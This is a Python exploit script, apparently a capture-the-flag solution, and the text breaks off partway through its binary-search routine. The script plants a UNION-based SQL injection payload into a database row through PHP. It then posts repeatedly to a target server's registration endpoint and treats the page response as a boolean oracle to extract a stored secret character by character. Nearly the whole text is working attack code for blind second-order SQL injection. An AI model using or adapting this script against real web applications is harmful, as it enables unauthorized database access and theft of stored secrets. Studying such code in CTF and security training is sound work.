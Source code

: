 ```Python
#!/usr/bin/python3

import sys
import string
from subprocess import run, PIPE
import requests


CHARS = sorted(string.printable, key = lambda c: ord(c))
URL = 'http://31.22.123.49:1908'
USERNAME = 'fqertyuiop'
COUNT = 1337

def remote_add(payload):
    user = '{}_{}'.format(USERNAME, COUNT)
    php_code = '''
        $db_host="google.minimalblue.com";
        $db_name="tree";
        $db_user="ctf-user";
        $db_pass="ctf-pwd";
        $pdo = new PDO("mysql:host=$db_host;dbname=$db_name", $db_user, $db_pass);
        $stmt = $pdo->prepare("INSERT INTO members(id, username, password) VALUES ('QUERY', 'USER', 'f7fbba6e0636f890e56fbbf3283e524c6fa3204ae298382d624741d0dc6638326e282c41be5e4254d8820772c5518a2c5a8c0c7f7eda19594a7eb539453e1ed7')");
        $stmt->execute();
    '''.replace('QUERY', payload).replace('USER', user)

    run(['php', '-r', php_code], stdout=PIPE)


def oracle(pos, guess):
    payload = '-337 UNION SELECT IF({}>=(SELECT ORD(MID(s3cr3t, {}, 1)) from s3cr3t_st0r4g3 LIMIT 1), 1, 0)'.format(guess, pos)
    
    remote_add(payload)
    
    s = requests.Session()
    r = s.post('{}/internal/register.php'.format(URL), {
            'params[username]': '{}_{}'.format(USERNAME, COUNT),
            'params[password]': 'foo',
            'params[auto_login]': 'on',
            'db_host': 'tree.minimalblue.com',
            'db_name': 'tree'
        }, allow_redirects=True)

    return 'Member Search' in r.text


def search_bin(pos):
    global COUNT

    l = 0
    h = len(CHARS)-1

    while l != h:
        m = (l + h) // 2
        if oracle(pos, ord(CHARS[m])):
            h = m
        else:
            l = m + 1

        COUNT += 1

```